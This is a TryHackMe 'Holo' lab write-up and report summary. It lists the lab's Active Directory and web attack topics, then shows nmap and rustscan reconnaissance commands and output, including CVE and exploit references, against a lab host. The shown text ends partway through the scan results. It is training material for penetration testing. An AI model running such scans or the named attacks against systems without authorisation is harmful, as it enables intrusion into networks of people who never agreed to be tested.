# External Penetration Testing - Holo Corporate Network - TryHackMe - Holo Network

> Austin Lai | September 20th, 2021

> Updated    | September 29th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Holo](https://tryhackme.com/room/hololive)

The room is completed on September 7th, 2021

It was fun and be sure you can learn a lots from this room !

My first ever Pentest Report or OSCP like report, truly appreciate and welcome anyone would willing to provide feedback, I wish to have better report writing skill.

Thank you so much in advance.

<!-- /Description -->

<br />

## Table of Contents

<!-- TOC -->

- [External Penetration Testing - Holo Corporate Network - TryHackMe - Holo Network](#external-penetration-testing---holo-corporate-network---tryhackme---holo-network)
    - [Table of Contents](#table-of-contents)
    - [Overview of Holo](#overview-of-holo)
    - [Let's Begin Here !!!](#lets-begin-here-)
        - [**HOLO External Penetration Test Report**](#holo-external-penetration-test-report)
        - [Brief WriteUp Add-on for Report](#brief-writeup-add-on-for-report)

<!-- /TOC -->

<br />

## Overview of Holo

Welcome to Holo!

Holo is an Active Directory (AD) and Web Application attack lab that teaches core web attack vectors and advanced or obscure Active Directory attacks along with general red teaming methodology and concepts.

This network simulates an external penetration test on a corporate network "Hololive" with one intended kill chain. All concepts and exploits will be taught in a red teaming methodology and mindset with other methods and techniques taught throughout the network.

This network brings you from zero to red-team, but you are expected to have a general understanding of basic Windows and Linux architecture and the command line for both Windows and Linux.

Before we get too overzealous in attacking web servers and hacking the world, we need to identify our scope and perform some initial recon to identify assets. Your trusted agent has informed you that the scope of the engagement is 10.200.x.0/24 and 192.168.100.0/24.

<br />

In this lab, you will learn and explore the following topics:

- .NET basics
- Web application exploitation
- AV evasion
- Whitelist and container escapes
- Pivoting
- Operating with a C2 (Command and Control) Framework
- Post-Exploitation
- Situational Awareness
- Active Directory attacks

<br />

You will learn and exploit the following attacks and misconfigurations:

- Misconfigured sub-domains
- Local file Inclusion
- Remote code execution
- Docker containers
- SUID binaries
- Password resets
- Client-side filters
- AppLocker
- Vulnerable DLLs
- Net-NTLMv2 / SMB

<br />

[Overview and Background Section]

- [Task 1] Generation 1 - An Overview of Holo
- [Task 2] Patching Into the Matrix  - Get Connected!
- [Task 3] Kill Chain - Well, you're already here
- [Task 4] Flag Submission Panel - Submit your flags here

<br />

[Exploitation Guide]

- [Task 8] and [Task 11]  - Enumerating Files and Subdomains found on L-SRV01
- [Task 11] and [Task 12] Exploiting RCE and LFI vulnerabilities found on L-SRV01
- [Task 14] Enumerating a Docker container
- [Task 15] Enumerating the Docker host from L-SRV02
- [Task 16] through [Task 18] Gaining RCE on L-SRV01
- [Task 19] L-SRV01 Privilege Escalation
- [Task 22] Pivoting into the rest of the 10.200.x.0/24 network
- [Task 27] Exploiting password reset tokens on S-SRV01
- [Task 28] Bypassing file upload restrictions on S-SRV01
- [Task 35] Dumping Credentials on S-SRV01
- [Task 36] Passing the Hash to PC-FILESRV01
- [Task 37] Bypassing AppLocker on PC-FILESRV01
- [Task 42] and [Task 43] DLL Hijacking on PC-FILESRV01
- [Task 46] Preform a Remote NTLM Relay attack on PC-FILESRV01 to DC-SRV01
- [Task 47] Looting, submitting the final flags from S-SRV02, and Thank You's.

<br />

[Learning Guide]

- [Task 8] Punk Rock 101 err Web App 101 - Fuzzing for Files and  Subdomains using GoBuster
- [Task 9] What the Fuzz? - Fuzzing for Files and Subdomains using WFuzz
- [Task 11] What is this? Vulnversity? - Web Exploitation Basics, LFI and RCE
- [Task 15] Living of the LANd - Building your own Portable Port Scanner!
- [Task 17] Making Thin Lizzy Proud - Docker Enumeration and RCE via MySQL
- [Task 22] Digging a tunnel to nowhere - An overview of Pivoting with Chisel and SSHuttle
- [Task 23] Command your Foes and Control your Friends - Installing and Setting up Covenant C2
- [Task 27] Hide yo' Kids, Hide yo' Wives, Hide yo' Tokens - Password Reset Tokens - Grindr Case Study
- [Task 28] Thanks, I'll let myself in - Exploiting Client Side scripts
- [Task 28] Basically a joke itself... - AV Bypass
- [Task 35] That's not a cat, that's a dawg - Gaining Persistence and Dumping Credentials with Mimikat ft. Covenant
- [Task 36] Good Intentions, Courtesy of Microsoft Part: II - Hash spraying with CrackMapExec
- [Task 37] Watson left her locker open - An Intro to AppLocker Bypass
- [Task 42] and [Task 43] WE'RE TAKING OVER THIS DLL! - DLL Hijacking
- [Task 44] Never Trust LanMan - Understanding how NetNTLM Sessions are established
- [Task 45] No you see me, now you dont - Real World Case Study, How Spooks pwned a network in 5 minutes using Responder and NTLMRelayX
- [Task 46] Why not just turn it off? - Showcasing a new AD Attack vector; Hijacking Windows' SMB server

<br />

## Let's Begin Here !!!

### [**HOLO External Penetration Test Report**](https://github.com/austin-lai/External-Penetration-Testing-Holo-Corporate-Network-TryHackMe-Holo-Network/blob/master/BlackSunSecurity-ExternalPenetrationTestReport-HOLO-v1.0.pdf)

The report has included below section in general for your references:

1. Cover page
2. Business Confidential
3. Table of Content
4. Holo External Penetration Test Report
    - Introduction | Purpose
    - External Penetration Test Scope
    - Executive Summary
    - Attack Timeline and Summary
    - Severity Classification
    - Summary of Vulnerability
    - Security Weakness and Recommendation
    - External Penetration Test Methodologies (include detail of Information Gathering, Penetration, Maintain Access, House Cleaning)
5. Conclusion | Summary
6. Additional Items
    - Appendix 1 - References
    - Appendix 2 - MITRE ATT&CK Framework
    - Appendix 3 - Trophies
    - Appendix 4 - Meterpreter Usage
    - Appendix 5 - Account Usage
    - Appendix 6 - Additional [tools | binary] Usage

<br />

### Brief WriteUp Add-on for Report

Information gathering:

As we been given the scope of engagement for Holo network (10.200.107.0/24), we will first performed basic network scan for host alive.

<details><summary>nmap result</summary>

```bash
nmap -nvv -sn -oN ./holo-kali-08092021/10.200.107.0-network-scan 10.200.107.0/24 && ./holo-kali-08092021/10.200.107.0-network-scan | grep --color=always -B 1 up

Nmap scan report for 10.200.107.0 [host down, received no-response]
Nmap scan report for 10.200.107.1 [host down, received no-response]
Nmap scan report for 10.200.107.2 [host down, received no-response]
Nmap scan report for 10.200.107.3 [host down, received no-response]
Nmap scan report for 10.200.107.4 [host down, received no-response]
Nmap scan report for 10.200.107.5 [host down, received no-response]
Nmap scan report for 10.200.107.6 [host down, received no-response]
Nmap scan report for 10.200.107.7 [host down, received no-response]
Nmap scan report for 10.200.107.8 [host down, received no-response]
Nmap scan report for 10.200.107.9 [host down, received no-response]
Nmap scan report for 10.200.107.10 [host down, received no-response]
Nmap scan report for 10.200.107.11 [host down, received no-response]
Nmap scan report for 10.200.107.12 [host down, received no-response]
Nmap scan report for 10.200.107.13 [host down, received no-response]
Nmap scan report for 10.200.107.14 [host down, received no-response]
Nmap scan report for 10.200.107.15 [host down, received no-response]
Nmap scan report for 10.200.107.16 [host down, received no-response]
Nmap scan report for 10.200.107.17 [host down, received no-response]
Nmap scan report for 10.200.107.18 [host down, received no-response]
Nmap scan report for 10.200.107.19 [host down, received no-response]
Nmap scan report for 10.200.107.20 [host down, received no-response]
Nmap scan report for 10.200.107.21 [host down, received no-response]
Nmap scan report for 10.200.107.22 [host down, received no-response]
Nmap scan report for 10.200.107.23 [host down, received no-response]
Nmap scan report for 10.200.107.24 [host down, received no-response]
Nmap scan report for 10.200.107.25 [host down, received no-response]
Nmap scan report for 10.200.107.26 [host down, received no-response]
Nmap scan report for 10.200.107.27 [host down, received no-response]
Nmap scan report for 10.200.107.28 [host down, received no-response]
Nmap scan report for 10.200.107.29 [host down, received no-response]
Nmap scan report for 10.200.107.30 [host down, received no-response]
Nmap scan report for 10.200.107.31 [host down, received no-response]
Nmap scan report for 10.200.107.32 [host down, received no-response]
Nmap scan report for 10.200.107.33
Host is up, received syn-ack (0.33s latency).
Nmap scan report for 10.200.107.34 [host down, received no-response]
[---OMMITED---]
Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep  8 22:37:08 2021 -- 256 IP addresses (2 hosts up) scanned in 15.38 seconds

Nmap scan report for 10.200.107.33
Host is up, received syn-ack (0.33s latency).
```

</details>

Once we identify the host, we perform a detail rustscan - in this case, the target of host which is alive is ` 10.200.107.33 `:

<details><summary>rustscan result</summary>

```bash
sudo rustscan -u 5000 -b 1900 -t 4000 --tries 2 --scan-order serial -a 10.200.107.33 -- -A -sVC --script=safe,default,discovery,version,vuln | sudo tee rustscan-full-result-10.200.107.33

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Real hackers hack time ⌛

[~] The config file is expected to be at "/root/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.200.107.33:22
Open 10.200.107.33:80
Open 10.200.107.33:33060
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-08 22:38 EDT
NSE: Loaded 487 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:38
NSE: [targets-ipv6-wordlist] Need to be executed for IPv6.
NSE: [shodan-api] Error: Please specify your ShodanAPI key with the shodan-api.apikey argument
NSE: [broadcast-ataoe-discover] No interface supplied, use -e
NSE: [targets-ipv6-map4to6] This script is IPv6 only.
NSE: [url-snarf] no network interface was supplied, aborting ...
NSE: [broadcast-sonicwall-discover] No network interface was supplied, aborting.
NSE: [targets-xml] Need to supply a file name with the targets-xml.iX argument
NSE: [mtrace] A source IP must be provided through fromip argument.
NSE Timing: About 99.37% done; ETC: 22:39 (0:00:00 remaining)
Completed NSE at 22:39, 40.12s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:39
Completed NSE at 22:39, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:39
Completed NSE at 22:39, 0.00s elapsed
Pre-scan script results:
| broadcast-dhcp-discover:
|   Response 1 of 1:
|     Interface: eth0
|     IP Offered: 10.10.10.10
|     Server Identifier: 10.10.10.3
|     DHCP Message Type: DHCPOFFER
|     Subnet Mask: 255.255.255.0
|     Router: 10.10.10.1
|     Domain Name Server: 192.168.100.103, 8.8.8.8, 8.8.4.4
|_    IP Address Lease Time: 5m00s
| broadcast-igmp-discovery:
|   10.10.100.1
|     Interface: eth1
|     Version: 2
|     Group: 224.0.0.9
|     Description: RIP2 Routers (rfc1723)
|   10.10.100.1
|     Interface: eth1
|     Version: 2
|     Group: 224.0.0.252
|     Description: Link-local Multicast Name Resolution (rfc4795)
|_  Use the newtargets script-arg to add the results as targets
| broadcast-listener:
|   ether
|   udp
|       SSDP
|         ip           uri
|         10.10.100.1   urn:schemas-upnp-org:device:InternetGatewayDevice:1
|       LLMNR
|         ip                         query
|         fe80::d980:93eb:cf49:2bd7  austin-helper-x13
|_        10.10.100.1                austin-helper-x13
|_eap-info: please specify an interface with -e
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| ipv6-multicast-mld-list:
|   fe80::d980:93eb:cf49:2bd7:
|     device: eth1
|     mac: 0a:00:27:00:00:0f
|     multicast_ips:
|       ff02::1:ff49:2bd7         (NDP Solicited-node)
|       ff02::1:3                 (Link-local Multicast Name Resolution)
|       ff02::1:3                 (Link-local Multicast Name Resolution)
|       ff02::1:3                 (Link-local Multicast Name Resolution)
|       ff02::1:ff17:d849         (Solicited-Node Address)
|       ff02::fb                  (mDNSv6)
|       ff02::c                   (SSDP)
|       ff02::1:3                 (Link-local Multicast Name Resolution)
|_      ff02::1:3                 (Link-local Multicast Name Resolution)
| targets-asn:
|_  targets-asn.asn is a mandatory parameter
| targets-ipv6-multicast-invalid-dst:
|   IP: fe80::d980:93eb:cf49:2bd7  MAC: 0a:00:27:00:00:0f  IFACE: eth1
|_  Use --script-args=newtargets to add the results as targets
| targets-ipv6-multicast-mld:
|   IP: fe80::d980:93eb:cf49:2bd7  MAC: 0a:00:27:00:00:0f  IFACE: eth1
|
|_  Use --script-args=newtargets to add the results as targets
| targets-ipv6-multicast-slaac:
|   IP: fe80::d980:93eb:cf49:2bd7  MAC: 0a:00:27:00:00:0f  IFACE: eth1
|   IP: fe80::c938:93dc:1b17:d849  MAC: 0a:00:27:00:00:0f  IFACE: eth1
|_  Use --script-args=newtargets to add the results as targets
Initiating Ping Scan at 22:39
Scanning 10.200.107.33 [4 ports]
Completed Ping Scan at 22:39, 0.37s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:39
Completed Parallel DNS resolution of 1 host. at 22:39, 0.02s elapsed
DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 2, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 22:39
Scanning 10.200.107.33 [3 ports]
Discovered open port 22/tcp on 10.200.107.33
Discovered open port 80/tcp on 10.200.107.33
Discovered open port 33060/tcp on 10.200.107.33
Completed SYN Stealth Scan at 22:39, 0.38s elapsed (3 total ports)
Initiating Service scan at 22:39
Scanning 3 services on 10.200.107.33
Completed Service scan at 22:40, 39.38s elapsed (3 services on 1 host)
Initiating OS detection (try #1) against 10.200.107.33
Retrying OS detection (try #2) against 10.200.107.33
Initiating Traceroute at 22:40
Completed Traceroute at 22:40, 0.34s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:40
Completed Parallel DNS resolution of 2 hosts. at 22:40, 0.02s elapsed
DNS resolution of 2 IPs took 0.02s. Mode: Async [#: 2, OK: 0, NX: 2, DR: 0, SF: 0, TR: 2, CN: 0]
NSE: Script scanning 10.200.107.33.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:40
NSE Timing: About 99.03% done; ETC: 22:41 (0:00:00 remaining)
NSE Timing: About 99.76% done; ETC: 22:41 (0:00:00 remaining)
NSE Timing: About 99.76% done; ETC: 22:42 (0:00:00 remaining)
NSE Timing: About 99.84% done; ETC: 22:42 (0:00:00 remaining)
NSE Timing: About 99.92% done; ETC: 22:43 (0:00:00 remaining)
Completed NSE at 22:43, 157.47s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:43
Completed NSE at 22:43, 4.42s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:43
Completed NSE at 22:43, 0.00s elapsed
Nmap scan report for 10.200.107.33
Host is up, received reset ttl 63 (0.27s latency).
Scanned at 2021-09-08 22:39:40 EDT for 211s

PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.2
| ssh-hostkey:
|   3072 11:29:89:c3:c7:39:17:65:7f:81:3a:c3:d1:ab:69:c7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCsPBETi9B91pOIm2E8ISSEwY27HWW6cqR6O2RLRZhOuhWSZ9pbKKcvaJl7FyfQsPpr9LVdaA8jvNTmFuzPsXVybJhst007qq+cUBGhmLMt4e9FlIxibuutv+FNbnguEpL95iqNrjSmPaYTZX7zVsP97e9Euhxy9hlLQjLqwlyJcswYWFBn6N6wEFfGNGO+7MmZTvrZM0TOJAjkhnjKxrHX5ulQddak5fi//I3sgd7/XMaryhVMmVBLRul726RSOSh9QFDCKFoAKoZF0iMM0vx1c7uD9zw5gD5xf+xDipAhS1h05CrhDCjTFyqIe+Q+/vH6f8oXLAVue/WnNU0yXT90CM5IOPhz1Zz53WP05li7vtTJhOrSo72oyZsgS+TVn0PFGfoGXG5M9M+tppejfXYQCF071iY+31zUdecu1IovN0aWqVccRHCxfomstXBYuiQOwHUsNmgfZShWHAWKDYcwFlip3x9ote9XUTBBZSiH7+eXsKjr2swYnKjya/tpIC0=
|   256 e8:ce:d8:24:78:98:8b:c2:42:1a:1c:4c:7b:70:5c:db (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBH+aK0Ud/r2l55EJz2i50p7aoe7eZjUouxuPTz4lVRlzxfHitT+TvLjyfdLrRNoXUjViE59n9igRuwHox2B0uY=
|   256 77:8e:57:e6:eb:55:9d:47:5a:3f:a1:66:55:cb:45:bd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKAxmkLKl73VofsKto7pgPKgjvLS0xK1rv3vgzANgTDy
| ssh2-enum-algos:
|   kex_algorithms: (9)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|   server_host_key_algorithms: (5)
|       rsa-sha2-512
|       rsa-sha2-256
|       ssh-rsa
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
| vulners:
|   cpe:/a:openbsd:openssh:8.2p1:
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       CVE-2020-12062  5.0     https://vulners.com/cve/CVE-2020-12062
|       MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/        4.6     https://vulners.com/metasploit/MSF:ILITIES/GENTOO-LINUX-CVE-2021-28041/ *EXPLOIT*
|       CVE-2021-28041  4.6     https://vulners.com/cve/CVE-2021-28041
|       MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/     4.3     https://vulners.com/metasploit/MSF:ILITIES/OPENBSD-OPENSSH-CVE-2020-14145/      *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/      4.3     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP5-CVE-2020-14145/       *EXPLOIT*
|       MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/   4.3     https://vulners.com/metasploit/MSF:ILITIES/F5-BIG-IP-CVE-2020-14145/    *EXPLOIT*
|_      CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
80/tcp    open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_citrix-enum-apps-xml: ERROR: Script execution failed (use -d to debug)
|_citrix-enum-servers-xml: ERROR: Script execution failed (use -d to debug)
|_http-chrono: Request times for /; avg: 1128.12ms; min: 1054.10ms; max: 1161.87ms
| http-comments-displayer:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.200.107.33
|
|     Path: http://10.200.107.33:80/
|     Line number: 110
|     Comment:
|         <!-- #post-## -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 70
|     Comment:
|         <!-- .entry-meta -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 132
|     Comment:
|         <!-- .inside-right-sidebar -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 55
|     Comment:
|         <!-- .inside-navigation -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 71
|     Comment:
|         <!-- .entry-header -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 33
|     Comment:
|         /* End cached CSS */
|
|     Path: http://10.200.107.33:80/
|     Line number: 136
|     Comment:
|         <!-- #page -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 135
|     Comment:
|         <!-- #content -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 57
|     Comment:
|         <!-- .inside-header -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 148
|     Comment:
|         <!--[if lte IE 11]>
|         <script type='text/javascript' src='http://www.holo.live/wp-content/themes/generatepress/js/classList.min.js?ver=2.4.2' id='generate-classlist-js'></script>
|         <![endif]-->
|
|     Path: http://10.200.107.33:80/
|     Line number: 146
|     Comment:
|         <!-- .site-footer -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 54
|     Comment:
|         <!-- .main-nav -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 145
|     Comment:
|         <!-- .site-info -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 112
|     Comment:
|         <!-- #primary -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 56
|     Comment:
|         <!-- #site-navigation -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 133
|     Comment:
|         <!-- #secondary -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 109
|     Comment:
|         <!-- .inside-article -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 58
|     Comment:
|         <!-- #masthead -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 105
|     Comment:
|         <!-- .entry-content -->
|
|     Path: http://10.200.107.33:80/
|     Line number: 111
|     Comment:
|_        <!-- #main -->
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.200.107.33
|   Found the following possible CSRF vulnerabilities:
|
|     Path: http://10.200.107.33:80/
|     Form id:
|_    Form action: http://www.holo.live/
|_http-date: Thu, 09 Sep 2021 02:40:49 GMT; 0s from local time.
|_http-devframework: Wordpress detected. Found common traces on /
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
| http-enum:
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2
|   /: WordPress version: 5.5.3
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /readme.html: Interesting, a readme.
|_  /0/: Potentially interesting folder
|_http-errors: Couldn't find any error pages.
|_http-feed: Couldn't find any feeds.
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-generator: WordPress 5.5.3
| http-grep:
|   (1) http://10.200.107.33:80/:
|     (1) ip:
|_      + 192.168.100.138
| http-headers:
|   Date: Thu, 09 Sep 2021 02:40:48 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   X-UA-Compatible: IE=edge
|   Link: <http://www.holo.live/index.php/wp-json/>; rel="https://api.w.org/"
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|
|_  (Request type: HEAD)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-malware-host: Host appears to be clean
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 2052bf63dfddcd1d2f052ead29f3a8d7
|_Credits query returned unknown hash 2052bf63dfddcd1d2f052ead29f3a8d7
|_http-referer-checker: Couldn't find any cross-domain scripts.
| http-robots.txt: 21 disallowed entries
| /var/www/wordpress/index.php
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade
| /var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
| /var/www/wordpress/wp-config-sample.php /var/www/wordpress/wp-cron.php
| /var/www/wordpress/wp-links-opml.php /var/www/wordpress/wp-login.php
|_/var/www/wordpress/wp-settings.php /var/www/wordpress/wp-trackback.php
|_http-security-headers:
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-sitemap-generator:
|   Directory structure:
|     /
|       Other: 1
|   Longest directory structure:
|     Depth: 0
|     Dir: /
|   Total files found (by extension):
|_    Other: 1
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: holo.live
| http-useragent-tester:
|   Status for browser useragent: 200
|   Allowed User Agents:
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
| http-vhosts:
|_128 names had status 200
| http-wordpress-enum:
| Search limited to top 100 themes/plugins
|   plugins
|     akismet
|   themes
|     generatepress 2.4.2
|_    twentyseventeen 2.4
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-xssed: No previously reported XSS vuln.
| vulners:
|   cpe:/a:apache:http_server:2.4.29:
|       CVE-2021-26691  7.5     https://vulners.com/cve/CVE-2021-26691
|       MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/ 7.2     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/  *EXPLOIT*
|       MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/      7.2     https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/       *EXPLOIT*
|       EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    7.2     https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB    *EXPLOIT*
|       CVE-2019-0211   7.2     https://vulners.com/cve/CVE-2019-0211
|       1337DAY-ID-32502        7.2     https://vulners.com/zdt/1337DAY-ID-32502        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2018-1312/       6.8     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1312/        *EXPLOIT*
|       MSF:ILITIES/UBUNTU-CVE-2017-15715/      6.8     https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2017-15715/       *EXPLOIT*
|       MSF:ILITIES/SUSE-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/SUSE-CVE-2017-15715/ *EXPLOIT*
|       MSF:ILITIES/REDHAT_LINUX-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2017-15715/ *EXPLOIT*
|       MSF:ILITIES/ORACLE_LINUX-CVE-2017-15715/        6.8     https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2017-15715/ *EXPLOIT*
|       MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15715/      6.8     https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15715/       *EXPLOIT*
|       MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15715/     6.8     https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15715/      *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2018-1312/       6.8     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2018-1312/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15715/      6.8     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15715/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1312/       6.8     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1312/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15715/      6.8     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15715/       *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2018-1312/       6.8     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2018-1312/        *EXPLOIT*
|       MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2017-15715/      6.8     https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2017-15715/       *EXPLOIT*
|       MSF:ILITIES/FREEBSD-CVE-2017-15715/     6.8     https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2017-15715/      *EXPLOIT*
|       MSF:ILITIES/DEBIAN-CVE-2017-15715/      6.8     https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2017-15715/       *EXPLOIT*
